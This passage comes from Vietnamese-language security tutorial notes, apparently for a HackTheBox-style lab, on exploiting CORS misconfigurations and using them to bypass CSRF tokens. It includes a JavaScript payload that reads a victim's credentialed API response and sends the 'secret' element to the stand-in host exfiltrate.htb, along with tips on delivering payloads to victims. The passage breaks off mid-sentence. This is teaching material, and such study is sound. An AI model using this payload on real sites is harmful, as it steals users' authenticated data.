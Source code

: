 #### **5. Tinh chỉnh Payload và Kỹ thuật Exfiltration**

Trong một số trường hợp, payload có thể gặp lỗi nếu dữ liệu phản hồi quá lớn để gửi qua URL (GET request). Để tối ưu payload, chúng ta có thể:

- **Sử dụng POST request** thay vì GET.
- **Chia nhỏ dữ liệu** và gửi qua nhiều yêu cầu nhỏ hơn.
- **Phân tích và chỉ exfiltrate các phần dữ liệu quan trọng**.

**Ví dụ tinh chỉnh Payload**:

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://api.vulnerablesite.htb/data', true);
  xhr.withCredentials = true;
  xhr.onload = () => {
    var doc = new DOMParser().parseFromString(xhr.response, 'text/html');
    var msg = encodeURIComponent(doc.getElementById('secret').innerHTML);
    location = 'https://exfiltrate.htb/log?data=' + btoa(msg);
  };
  xhr.send();
</script>
```

- Payload này chỉ exfiltrate phần tử có ID là `"secret"` trong phản hồi HTML, giúp giảm kích thước dữ liệu.

#### **6. Lưu ý khi thực hiện tấn công CORS**

- **Cài đặt cookie của bên thứ ba (third-party cookies)** trong trình duyệt có thể ngăn không cho payload hoạt động. Tuy nhiên, khi gửi payload cho nạn nhân, vấn đề này thường không xảy ra. Hãy kiểm tra lỗi liên quan đến cookie trong **JavaScript console** và điều chỉnh cấu hình trình duyệt nếu cần.

---
# Bypassing CSRF Tokens via CORS Misconfigurations

#### **1. Tổng quan về Bypass CSRF Token qua CORS Misconfigurations**

Các cấu hình sai của **CORS** không chỉ tạo ra lỗ hổng bảo mật về dữ liệu mà còn có thể được sử dụng để vượt qua các biện pháp phòng thủ **CSRF** ngay cả khi chúng đã được triển khai đúng cách.

- Khi CORS được cấu hình sai với header **Access-Control-Allow-Credentials** là `true`, trình duyệt sẽ gửi cookie phiên cùng với yêu cầu **cross-origin**, điều này làm vô hiệu hóa Same-Origin Policy.
- Trong trường hợp này, các biện pháp phòng thủ CSRF thông thường sẽ không hiệu quả, vì kẻ tấn công có thể truy cập phản hồi của yêu cầu cross-origin và sử dụng token CSRF hợp lệ.

#### **2. Vượt qua CSRF Token thông qua CORS Misconfiguration**

Nếu kẻ tấn công có thể vượt qua Same-Origin Policy bằng cách khai thác CORS misconfiguration, họ có thể:
